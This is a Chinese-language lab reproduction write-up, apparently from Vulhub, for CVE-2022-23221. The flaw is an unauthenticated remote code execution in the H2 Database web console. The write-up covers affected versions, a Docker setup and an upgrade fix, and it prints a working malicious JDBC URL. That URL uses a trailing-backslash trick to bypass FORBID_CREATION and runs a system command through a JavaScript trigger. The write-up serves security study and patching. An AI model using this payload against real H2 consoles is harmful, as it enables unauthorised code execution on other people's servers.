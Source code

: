 # H2 Database Web Console 未授权 JDBC 攻击导致远程代码执行 CVE-2022-23221

## 漏洞描述

H2 Database 是一个快速、开源的基于 Java 的关系型数据库管理系统（RDBMS），可用于嵌入式（集成在 Java 应用中）和客户端-服务器模式。

当 Spring Boot 集成 H2 Database 时，如果设置如下选项，将会启用 Web 管理页面：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

在 1.4.198 版本中，H2 Web 控制台限制了文件数据库的创建和内存数据库的连接，从而修复了 [CVE-2018-10054](https://github.com/vulhub/vulhub/blob/master/h2database/CVE-2018-10054) 漏洞。然而，在 1.4.198 至 2.1.210（不含）版本中，攻击者仍可通过 JDBC 攻击和一些技巧绕过该限制，进而执行任意代码。

参考链接：

- https://conference.hitb.org/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf
- https://www.leavesongs.com/PENETRATION/talk-about-h2database-rce.html
- https://github.com/h2database/h2database/releases/tag/version-2.1.210
- [h2database/h2database#1580](https://github.com/h2database/h2database/pull/1580)
- [h2database/h2database#1726](https://github.com/h2database/h2database/pull/1726)

## 漏洞影响

```
1.4.198 <= H2 Console < 2.1.210
```

## 环境搭建

Vulhub 执行如下命令启动一个集成了 H2 Database 2.0.206 版本的 Spring Boot：

```
docker compose up -d
```

容器启动后，Spring Boot 服务监听在 `http://your-ip:8080`，H2 管理页面默认地址为 `http://your-ip:8080/h2-console/`。

## 漏洞复现

在复现本漏洞前，可以先确认 [CVE-2018-10054](https://github.com/vulhub/vulhub/blob/master/h2database/CVE-2018-10054) 中的 payload 已无法利用，因为 1.4.198 版本及以后，内存数据库被禁用，报错 `Database “mem:test” not found, either pre-create it or allow remote database creation (not recommended in secure environments)`：

```
jdbc:h2:mem:test
```

![](images/H2%20Database%20Web%20Console%20未授权%20JDBC%20攻击导致远程代码执行%20CVE-2022-23221/image-20250421164554878.png)

1.4.198 版本及以后，H2 控制台会默认在 JDBC URL 后追加 `;FORBID_CREATION=TRUE`，阻止文件数据库的创建和内存数据库的连接。但攻击者可以在 JDBC URL 末尾添加一个反斜杠 `\`，扰乱 URL 语法，使 FORBID_CREATION 被忽略。

结合该技巧与 JDBC 攻击，可以构造如下恶意 JDBC URL：

```
jdbc:h2:mem:test;MODE=MSSQLServer;FORBID_CREATION=FALSE;INIT=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;AUTHZPWD=\
```

在 Web 控制台登录时，使用上述 URL 即可执行任意命令（注意换行）：

![](images/H2%20Database%20Web%20Console%20未授权%20JDBC%20攻击导致远程代码执行%20CVE-2022-23221/image-20250421165020395.png)

## 漏洞修复

升级至最新版本： https://github.com/h2database/h2database/releases/
